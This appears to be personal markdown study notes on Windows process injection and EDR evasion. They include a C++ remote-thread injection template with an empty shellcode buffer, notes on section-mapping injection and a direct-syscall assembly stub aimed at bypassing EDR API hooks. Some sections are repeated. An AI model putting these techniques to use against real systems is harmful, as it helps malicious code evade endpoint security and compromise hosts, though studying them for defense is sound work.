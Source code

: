 # Windows 
### Injection and Hijacking

### EDR
Sensor - > Userland ( collects telemetry and monitors behavior)

Driver -> Kernel ( monitor low-level operations)

Backend -> Online Infra (Where all received telementry is sent to for processing, logging and analysis)

### Terms
API calls -> High level function calls provided by window libraries
System call -> low-level interface between userland and kernel land


### Kernel Prefix
Nt -> native api -> wrapper for userland syscall for userland system services
Zw -> Kernel-mode Native API -> used also in kernel mode, may skip user-mode access checks
Ex -> Executive layer -> Core helper functions
cm -> configuration manager -> registry interaction


### IAT 
Import address table, stores address of functions imported from external DLL


### EAT
export address table, expose functions or symbols for external use

### Win APi Functions

```cpp
OpenProcess ()

VirtualAllocEx ()

WriteProcessMemory()

CreateRemoteThread()
```



### Inject thread 


```cpp
#include <windows.h>
#include <processthreadsapi.h>

int main() {

    HANDLE hProcess, hThread;
    LPVOID start_ptr;
    DWORD tid;
    size_t written;

    char shellcode[] = {

    };
    start_ptr = (LPVOID) 0x13370000;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 2676);

    start_ptr = VirtualAllocEx(hProcess, start_ptr, 0x1000,  MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hProcess, start_ptr, shellcode, 256, &written);

    hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)start_ptr, NULL, 0, &tid);

}

```


### without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```cpp
    execMem = VirtualAlloc(NULL, sizeof(code), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(execMem, code, sizeof(code));
    f = (Func)execMem;
    f(&hPipe);
```

without virtualalloc

find writeable memory, put loadlibrary , pass dll as argument and call CreateRemoteThread


```
typedef HANDLE (WINAPI *CREATEFILE2)(LPCWSTR, DWORD, DWORD, DWORD, LPCREATEFILE2_EXTENDED_PARAMETERS);

GetProcAddress(GetModuleHandleA("kernelbase"), "CreateFile2");
```




```
typedef NTSTATUS (NTAPI *NtCreateFile_t)(
    PHANDLE, ACCESS_MASK, POBJECT_ATTRIBUTES, PIO_STATUS_BLOCK,
    PLARGE_INTEGER, ULONG, ULONG, ULONG, ULONG, PVOID, ULONG
);
GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateFile");
```




```
avoiding virtual alloc 

Instead of allocating memory directly in a remote process using VirtualAllocEx, you:

- Create a memory section (like a shared memory region).

- Map that section into both your process and the target process.

- Write your payload into your local mapping.

- The payload now exists in the remote process too — because both share the same memory section.

This approach uses native NT APIs:

NtCreateSection

NtMapViewOfSection

```


## Bypassing EDR API Hooking 

### inject inline asm with naked function

    Note: When preparing for system call, windows move rcx (first arg) into r10 as rcx will be use to store the return address and r10 now represent the first argument . rax still stores the system call number


### setting up syscall
move syscall number into rax,
mov rcx into r10, putting first argument now into r10 for kernel use 
userland uses rcx

```asm
; syscall.asm

.code
public MyNakedFunction

MyNakedFunction proc
    mov r10, rcx        ; Windows x64 ABI requires syscall target in R10
    mov eax, 0c4h       ; 
    ret
MyNakedFunction endp

end
```
assemble

```
ml64 /c /Fo syscall.obj syscall.asm 
```

then in your cpp
```cpp
extern "C" int MyNakedFunction(HANDLE *); 
```

compile with 
```
cl /O2 windows.cpp syscall.obj
```

